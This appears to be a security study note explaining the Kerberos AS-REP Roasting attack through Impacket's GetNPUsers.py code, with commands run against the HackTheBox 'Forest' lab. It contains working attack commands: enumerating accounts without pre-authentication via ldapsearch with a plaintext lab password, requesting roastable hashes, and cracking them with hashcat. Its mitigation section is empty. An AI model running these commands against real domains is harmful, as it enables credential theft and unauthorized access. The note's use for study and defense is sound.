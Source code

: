 # AS-REP Roasting Attack

## Pre-authentication

### History

The original Kerberos 4 protocol was susceptible to an _offline dictionary and brute-force attacks_ since the KDC happily provides a ticket encrypted with the principals’ secret key to any requestor.

### Kerberos V5

[Kerberos 5](./#as-exchange) introduces _pre-authentication_ which requires that requestors prove their identity by demonstrating the knowledge of the user's credentials before the KDC will issue a ticket for a particular principal.

### Implementation

There are [several types of pre-authentication](https://datatracker.ietf.org/doc/html/rfc4120#section-7.5.2) defined by the Kerberos.

However, only the encrypted timestamp (PA-ENC-TIMESTAMP) pre-authentication method is commonly implemented.

{% embed url="https://learning.oreilly.com/library/view/kerberos-the-definitive/0596004036/" %}

### AS-REQ Review

Pre-authentication is controlled by KDC policy.

1. If a client attempts to request initial tickets through the AS exchange, but the pre-authentication is enabled,
2. then the KDC will send a `KRB_ERROR` message which tells the client that pre-authentication is required instead of an AS\_REP.
3. The client append the required pre-authentication data to its AS\_REQ message this time.
4. If the pre-authentication data is accepted, the KDC responds with an AS reply including the TGT ticket. Otherwise, the KDC will response another KRB\_ERROR message that indicates pre-authentication failed.

Refer to the [Kerberos authentication service](./#authentication-service).

## ASREPRoasting Attack

The encrypted part in the `KRB_AS_REP` message is encrypted using the user password hash.

[The predictable content](https://github.com/fortra/impacket/blob/8b3f9eff06b3a14c09e8e64cfc762cf2adeed013/impacket/krb5/asn1.py#L278) in the encrypted data allows the offline attack to be conducted:

{% code title="[RFC 4120] 5.4.2.  KRB_KDC_REP Definition" %}
```
   EncKDCRepPart   ::= SEQUENCE {
           key             [0] EncryptionKey,
           last-req        [1] LastReq,
           nonce           [2] UInt32,
           key-expiration  [3] KerberosTime OPTIONAL,
           flags           [4] TicketFlags,
           authtime        [5] KerberosTime,
           starttime       [6] KerberosTime OPTIONAL,
           endtime         [7] KerberosTime,
           renew-till      [8] KerberosTime OPTIONAL,
           srealm          [9] Realm,
           sname           [10] PrincipalName,
           caddr           [11] HostAddresses OPTIONAL
   }
```
{% endcode %}

## Tools

{% tabs %}
{% tab title="Impacket" %}
We use the script [`GetNPUsers.py`](https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py) to conduct the attack, for example in the HackTheBox lab machine [`Forest`](../../../hackthebox/windows/active-directory/forest.md), we use this script to get the TGT ticket for the user `svc-alfresco`:

```bash
$ impacket-GetNPUsers htb.local/svc-alfresco -no-pass -format hashcat
```

After parsing the arguments, the script initializes the class `GetUserNoPreAuth` with domain account credentials:

```python
    try:
        executer = GetUserNoPreAuth(username, password, domain, options)
        executer.run()
```

If a file of user names is provided, the class call its method `reques_users_file_TGTs` to get the TGT ticket for each account name if the pre-authentication is disabled.

```python
    def run(self):
        if self.__usersFile:
            self.request_users_file_TGTs()
            return
```

### LDAP Search

If `doKerberos` is set _or_ `no_pass` is false, the script will do the LDAP search to find domain accounts with property `Do not require Kerberos preauthentication` set`UF_DONT_REQUIRE_PREAUTH`:

```python
        # Connect to LDAP
        try:
            ldapConnection = ldap.LDAPConnection('ldap://%s' % self.__target, self.baseDN, self.__kdcIP)
...
        # Building the search filter
        searchFilter = "(&(UserAccountControl:1.2.840.113556.1.4.803:=%d)" \
                       "(!(UserAccountControl:1.2.840.113556.1.4.803:=%d))(!(objectCategory=computer)))" % \
                       (UF_DONT_REQUIRE_PREAUTH, UF_ACCOUNTDISABLE)

        try:
            logging.debug('Search Filter=%s' % searchFilter)
            resp = ldapConnection.search(searchFilter=searchFilter,
                                         attributes=['sAMAccountName',
                                                     'pwdLastSet', 'MemberOf', 'userAccountControl', 'lastLogon'],
                                         sizeLimit=999)
```

Also, we can use this filter with the command `ldapsearch` to get the same results:

{% code overflow="wrap" %}
```bash
$ ldapsearch -H ldap://forest -x -b 'dc=htb,dc=local' -D svc-alfresco@htb.local -w s3rvice '(&(UserAccountControl:1.2.840.113556.1.4.803:=4194304)(!(UserAccountControl:1.2.840.113556.1.4.803:=2))(!(objectCategory=computer)))'
```
{% endcode %}

{% embed url="https://learn.microsoft.com/en-us/troubleshoot/windows-server/identity/useraccountcontrol-manipulate-account-properties" %}

### AS-REQ Request

Either way, the class will call its method `getTGT` to try to get the TGT ticket for an account.

First, the method prepare the AS\_REQ message:

```python
    def getTGT(self, userName, requestPAC=True):
...
        asReq = AS_REQ()
...
        # from pyasn1.codec.der import decoder, encoder
        message = encoder.encode(asReq)
```

Then it sends the `AS_REQ`, receives, and parses the \`AS\_REP\` response:

```python
        try:
            r = sendReceive(message, domain, self.__kdcIP)
...
        # This should be the PREAUTH_FAILED packet or the actual TGT if the target principal has the
        # 'Do not require Kerberos preauthentication' set
        try:
            asRep = decoder.decode(r, asn1Spec=KRB_ERROR())[0]
```

### Encrypted Part

Finally, the script outputs [the encrypted part](https://datatracker.ietf.org/doc/html/rfc4120#section-5.4.2) in the `KRB_AS_REP` message:

```python
        if self.__outputFormat == 'john':
            # Let's output the TGT enc-part/cipher in John format, in case somebody wants to use it.
            return '$krb5asrep$%s@%s:%s$%s' % (clientName, domain,
                                               hexlify(asRep['enc-part']['cipher'].asOctets()[:16]).decode(),
                                               hexlify(asRep['enc-part']['cipher'].asOctets()[16:]).decode())
        else:
            # Let's output the TGT enc-part/cipher in Hashcat format, in case somebody wants to use it.
            return '$krb5asrep$%d$%s@%s:%s$%s' % ( asRep['enc-part']['etype'], clientName, domain,
                                                   hexlify(asRep['enc-part']['cipher'].asOctets()[:16]).decode(),
                                                   hexlify(asRep['enc-part']['cipher'].asOctets()[16:]).decode())
```

### Password Crack

We can crack the hash to get the domain user password with `hashcat`.

```bash
$ hashcat -f -m 18200 <hash> <wordlist>
```
{% endtab %}

{% tab title="Mimikatz" %}

{% endtab %}
{% endtabs %}

## Mitigation
